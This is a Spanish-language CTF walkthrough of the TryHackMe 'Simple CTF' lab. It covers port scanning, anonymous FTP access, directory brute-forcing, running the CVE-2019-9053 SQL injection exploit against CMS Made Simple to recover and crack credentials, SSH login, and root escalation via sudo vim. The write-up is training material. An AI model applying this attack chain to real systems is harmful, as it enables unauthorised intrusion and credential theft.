

TryHackMe - Simple CTF

Contenido
| Titulo | Simple CTF |
|---|---|
| Room | Simple CTF |
| Info | Beginner level ctf |
| Puntos | 2680 |
| Dificultad | Facil |
| Maker | MrSeth6797 |
NMAP
Escaneo de puertos tcp/udp, nmap nos muestra el puerto http (80), el puerto ssh (2222) y el puerto ftp (21) abiertos.
# Nmap 7.80 scan initiated Wed Feb 5 00:40:46 2020 as: nmap -p- -sV -sC -T4 -o nmap_scan 10.10.235.105
Nmap scan report for 10.10.235.105
Host is up (0.17s latency).
Not shown: 65532 filtered ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.1.72
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
| 256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_ 256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 5 00:46:01 2020 -- 1 IP address (1 host up) scanned in 314.63 seconds
FTP
Accedemos al servicio ftp mediante el ‘usuario’ anonymous y encontramos una nota en la que nos muestra un mensaje que indica que la contraseña es la misma que el usuario y la contraseña puede ser crackeada en segundos.
root@aoiri:~/tryhackme/simplectf# ftp 10.10.235.105
Connected to 10.10.235.105.
220 (vsFTPd 3.0.3)
Name (10.10.235.105:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 ftp ftp 4096 Aug 17 18:24 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 ftp ftp 166 Aug 17 18:24 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (953.5845 kB/s)
ftp> exit
221 Goodbye.
root@aoiri:~/tryhackme/simplectf# cat ForMitch.txt
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
root@aoiri:~/tryhackme/simplectf#
HTTP
Encontramos la pagina principal de Apache en el puerto http (80).

GOBUSTER
Utilizamos gobuster para busqueda de directorios y archivos que nos pudiesen servir.
root@aoiri:~/tryhackme/simplectf# gobuster dir -u 10.10.235.105 -w /usr/share/wordlists/dirb/common_nofirst10.txt -t 15 -x php,html,txt -q
/index.html (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/simple (Status: 301)
/simple
Encontramos un CMS corriendo en la maquina especificamente CMS Made Simple, vemos la version que esta corriendo en el footer de la pagina.

CMS Made Simple - CVE-2019-9053
Encontramos una vulnerabilidad de Inyeccion SQL que afecta a este CMS, utilizamos el exploit para obtener el usuario y contraseña.
CMS Made Simple < 2.2.10 - SQL Injection
python CVE-2019-9053.py -u http://10.10.2.28/simple/ --crack -w 10k-most-common.txt
[+] Salt for password found: 1dac0d9***fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468b*****a84c7eb73846e8d96
[+] Password cracked: ******
Intentamos utilizar las credenciales que encontramos en el panel de Made Simple pero no logramos iniciar sesion.
SSH - User
Utilizamos las credenciales que encontramos en el servicio SSH para poder obtener una shell y nuestra flag user.txt.

PRIVILEGE ESCALATION
Hacemos una enumeracion sencilla con sudo -l -l para listar los comandos/archivos que podemos ejecutar sin contraseña y con privilegios root, vemos a /usr/bin/vim, para obtener una shell utilizamos GTFOBINS.

Obtenemos nuestra shell con usuario root y nuestra flag root.txt.